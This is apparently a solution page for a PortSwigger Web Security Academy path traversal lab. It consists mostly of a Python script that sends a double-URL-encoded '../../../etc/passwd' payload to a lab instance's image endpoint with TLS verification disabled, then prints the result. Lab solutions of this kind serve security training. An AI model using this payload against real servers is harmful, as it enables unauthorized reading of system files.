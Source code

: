 # Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

link to lab: https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode

Solution: 

```python
import requests

response = requests.get(
    'https://0a480054031b2c84c001c2e2002a0090.web-security-academy.net/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34',
    verify=False,
)

print(response.text)
```